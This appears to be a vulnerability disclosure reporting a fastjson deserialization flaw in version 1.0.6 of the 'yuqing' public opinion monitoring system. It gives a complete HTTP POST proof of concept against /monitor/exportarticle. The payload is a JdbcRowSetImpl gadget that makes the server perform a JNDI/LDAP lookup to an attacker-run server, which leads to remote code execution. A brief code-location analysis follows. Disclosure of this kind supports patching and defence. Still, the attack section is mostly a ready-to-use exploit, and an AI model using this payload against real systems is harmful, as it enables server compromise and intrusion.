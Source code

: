 ### There is a deserialization vulnerability in the public opinion monitoring network monitoring system

### project address

https://gitee.com/stonedtx/yuqing

### Affected version

1.0.6

POC

```
POST /monitor/exportarticle HTTP/1.1
Host: 127.0.0.1:8084
Content-Length: 112
sec-ch-ua: "(Not(A:Brand";v="8", "Chromium";v="99"
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.84 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://127.0.0.1:8084
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://127.0.0.1:8084/report?groupid=1493154486150107136&projectid=1493154645181337600&search=&type=1&page=1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: Hm_lvt_1cd9bcbaae133f03a6eb19da6579aaba=1691376050; local-portal=77E068CB3DBFA3E311237A3E65D6E77E; Hm_lvt_e0ae7650bd7b3442428280c81a85f60b=1691564381; Hm_lvt_f17e264e40b4ac75672813c1a2ae7110=1691564381; Hm_lpvt_e0ae7650bd7b3442428280c81a85f60b=1691564960; Hm_lpvt_f17e264e40b4ac75672813c1a2ae7110=1691564960
Connection: close

data={"e":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"f":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://127.0.0.1:8888/Object","autoCommit":true}}
```



![img](https://cdn-images-1.medium.com/max/900/0*EoaWBcXwmyNg5RWD)

### Vulnerability analysis

### Used unsafe components

![img](https://cdn-images-1.medium.com/max/900/0*Csepkkg9DDSE5wTk)

Find the call point src/main/java/com/stonedt/intelligence/controller/MonitorController.java exportArticleList function. The corresponding route exportarticle parameter is data and the request type is POST.

![img](https://cdn-images-1.medium.com/max/900/0*bXf8hC2-jAAyZ-ng)

The upper-level route is monitor.

![img](https://cdn-images-1.medium.com/max/900/0*kRAbYyObfxzMLHL2)